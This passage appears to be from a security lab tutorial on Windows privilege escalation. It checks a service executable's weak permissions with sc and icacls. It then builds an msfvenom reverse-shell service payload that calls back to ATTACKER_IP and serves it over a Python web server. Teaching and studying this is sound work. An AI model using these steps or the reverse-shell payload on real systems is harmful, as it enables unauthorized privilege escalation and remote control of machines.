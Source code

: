### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the  privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on  Splinterware System Scheduler. To start, we will query the service  configuration using `sc`:

​            Command Prompt        

```shell-session
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
        
```

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

​            Command Prompt        

```shell-session
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
        
```

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply  overwrite it with any payload of our preference, and the service will  execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

- **Kali Linux**        

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
        
```
